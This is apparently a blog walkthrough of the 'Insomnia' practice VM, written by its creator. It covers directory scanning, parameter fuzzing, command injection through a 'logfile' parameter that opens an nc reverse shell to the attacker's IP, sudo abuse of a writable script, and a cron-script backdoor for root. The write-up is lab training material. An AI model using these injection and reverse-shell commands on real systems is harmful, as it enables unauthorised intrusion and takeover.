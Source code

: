 ```yaml
---
layout: post
title:  "Insomnia - Walkthrough"
date:   2021-01-11 10:10:05 +0300
categories: [vulnhub,hackmyvm,walkthrough,myvms]
pin: true
tags: [RCE,cron,sudo]
image: /images/insomnia.jpg
---
```

- You’ll find this vm in Vulnhub `https://www.vulnhub.com/entry/insomnia-1,644/`

- Also to HackMyVm `https://hackmyvm.eu/machines/machine.php?vm=Insomnia`

- Difficulty : easy

##  Youtube Video

<iframe width="700" height="415" src="https://www.youtube.com/embed/aSEaIK8kWD8" frameborder="0" allowfullscreen></iframe>

## Directory Scan

{% highlight sh %}
  dirb http://10.0.2.114:8080/ -X .php,.txt

  + http://10.0.2.114:8080/administration.php (CODE:200|SIZE:65)                                                   
  + http://10.0.2.114:8080/chat.txt (CODE:200|SIZE:1)                                                              
  + http://10.0.2.114:8080/index.php (CODE:200|SIZE:2899)                                                          
  + http://10.0.2.114:8080/process.php (CODE:200|SIZE:2)  
{% endhighlight %}

## Find GET parameter

{% highlight sh %}
  wfuzz -w /usr/share/wfuzz/wordlist/general/common.txt --hh 65 'http://10.0.2.114:8080/administration.php?FUZZ=test'                                                               
  =====================================================================
  ID           Response   Lines    Word       Chars       Payload                                                                                                                                            
  =====================================================================

  000000485:   200        2 L      12 W       69 Ch       "logfile"    
{% endhighlight %}

## Reverse shell

```
http://10.0.2.114:8080/administration.php?logfile=chat.txt;nc -e /bin/sh 10.0.2.15 4444
```

- My machine

{% highlight sh %}
  nc -lvp 4444
  www-data@insomnia:~$ cd /home/julia
  www-data@insomnia:~$ cat user.txt
{% endhighlight %}

## Priv Esc to Julia

{% highlight sh %}
  www-data@insomnia:~/julia$ sudo -l
  (julia) NOPASSWD: /bin/bash /var/www/html/start.sh

  www-data@insomnia:~$ cd /var/www/html

  www-data@insomnia:/var/www/html$ ls -la | grep start.sh
  -rwxrwxrwx 1 root     root       20 Dec 21 04:18 start.sh

  www-data@insomnia:/var/www/html$ cat start.sh
  cat start.sh
  php -S 0.0.0.0:8080
{% endhighlight %}

#### Edit start.sh

{% highlight sh %}
  www-data@insomnia:/var/www/html$ cat start.sh
  cat start.sh
  php -S 0.0.0.0:8080

  www-data@insomnia:/var/www/html$ echo "/bin/bash" > start.sh

  www-data@insomnia:/var/www/html$ sudo -u julia /bin/bash /var/www/html/start.sh

  julia@insomnia:/var/www/html$ id
  id
  uid=1000(julia) gid=1000(julia) groups=1000(julia)
{% endhighlight %}

## cat /etc/crontab

{% highlight sh %}
  julia@insomnia:~$ cat /etc/crontab
  # Example of job definition:
  # .---------------- minute (0 - 59)
  # |  .------------- hour (0 - 23)
  # |  |  .---------- day of month (1 - 31)
  # |  |  |  .------- month (1 - 12) OR jan,feb,mar,apr ...
  # |  |  |  |  .---- day of week (0 - 6) (Sunday=0 or 7) OR sun,mon,tue,wed,thu,fri,sat
  # |  |  |  |  |
  # *  *  *  *  * user-name command to be executed
  17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
  25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
  47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
  52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
  *  *    * * *   root    /bin/bash /var/cron/check.sh

  julia@insomnia:~$ cd /var/cron
  cd /var/cron
  julia@insomnia:/var/cron$ ls -la | grep check.sh
  ls -la | grep check.sh
  -rwxrwxrwx  1 root root  153 Dec 21 04:17 check.sh
{% endhighlight %}

## Target machine

- check.sh is writable, edit `check.sh`

{% highlight sh %}
  julia@insomnia:/var/cron$ echo "nc -e /bin/sh 10.0.2.15 5555" >> check.sh
{% endhighlight %}

## My machine, wait a little bit

{% highlight sh %}
  ┌──(alienum㉿kali)-[~]
  └─$ nc -lvp 5555
  listening on [any] 5555 ...
  connect to [10.0.2.15] from 10.0.2.114 [10.0.2.114] 40348
  id
  uid=0(root) gid=0(root) groups=0(root)
{% endhighlight %}

- This vm created by me, i enjoyed the process
